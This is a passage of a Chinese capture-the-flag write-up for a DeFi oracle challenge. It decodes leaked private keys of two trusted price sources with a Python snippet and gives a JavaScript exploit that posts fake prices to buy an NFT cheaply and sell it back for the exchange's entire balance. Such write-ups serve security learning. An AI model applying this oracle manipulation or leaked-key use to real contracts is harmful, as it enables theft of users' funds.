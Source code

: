 ```
    emit UpdatedPrice(source, symbol, oldPrice, newPrice);
`}`
```

这意味着，当且仅当我们控制了 TrustedSource，我们就能控制购买的价格。此时恰好发现，题目提供的信息其实是其中两个 TrustedSource 的私钥：

```
#!/usr/bin/env python2

def get_private_key(bytes):
    return ''.join(bytes.split(' ')).decode('hex').decode('base64')

get_private_key('4d 48 68 6a 4e 6a 63 34 5a 57 59 78 59 57 45 30 4e 54 5a 6b 59 54 59 31 59 7a 5a 6d 59 7a 55 34 4e 6a 46 6b 4e 44 51 34 4f 54 4a 6a 5a 47 5a 68 59 7a 42 6a 4e 6d 4d 34 59 7a 49 31 4e 6a 42 69 5a 6a 42 6a 4f 57 5a 69 59 32 52 68 5a 54 4a 6d 4e 44 63 7a 4e 57 45 35')
# 0xc678ef1aa456da65c6fc5861d44892cdfac0c6c8c2560bf0c9fbcdae2f4735a9 =&gt; 0xe92401A4d3af5E446d93D11EEc806b1462b39D15
get_private_key('4d 48 67 79 4d 44 67 79 4e 44 4a 6a 4e 44 42 68 59 32 52 6d 59 54 6c 6c 5a 44 67 34 4f 57 55 32 4f 44 56 6a 4d 6a 4d 31 4e 44 64 68 59 32 4a 6c 5a 44 6c 69 5a 57 5a 6a 4e 6a 41 7a 4e 7a 46 6c 4f 54 67 33 4e 57 5a 69 59 32 51 33 4d 7a 59 7a 4e 44 42 69 59 6a 51 34')
# 0x208242c40acdfa9ed889e685c23547acbed9befc60371e9875fbcd736340bb48 =&gt; 0x81A5D6E50C214044bE44cA0CB057fe119097850c
```

通过我们控制的 TrustedSource，我们能任意修改买入卖出的价格，最后编写利用的代码如下：

```
it('Exploit', async function () `{`
    const leakedAccounts = ['0xc678ef1aa456da65c6fc5861d44892cdfac0c6c8c2560bf0c9fbcdae2f4735a9', '0x208242c40acdfa9ed889e685c23547acbed9befc60371e9875fbcd736340bb48'].map(pk=&gt;web3.eth.accounts.privateKeyToAccount(pk));

    for (let account of leakedAccounts) `{`
        await web3.eth.personal.importRawKey(account.privateKey, '');
        web3.eth.personal.unlockAccount(account.address, '', 999999);
        // 修改最低价
        await this.oracle.postPrice('DVNFT', 0, `{` from: account.address `}`);
    `}`
    // 买入
    await this.exchange.buyOne(`{` from: attacker, value: 1 `}`);
    // 修改为最高价格
    const exchangeBalance = await balance.current(this.exchange.address);
    await this.oracle.postPrice("DVNFT", exchangeBalance, `{` from: leakedAccounts[0].address`}`);
    await this.oracle.postPrice("DVNFT", exchangeBalance, `{` from: leakedAccounts[1].address`}`);
    await this.token.approve(this.exchange.address, 1, `{` from: attacker `}`);
    // 卖出
    await this.exchange.sellOne(1, `{` from: attacker `}`)
`}`);
```

[![](https://p5.ssl.qhimg.com/t0181ecd9ecbc5152b9.png)](https://p5.ssl.qhimg.com/t0181ecd9ecbc5152b9.png)

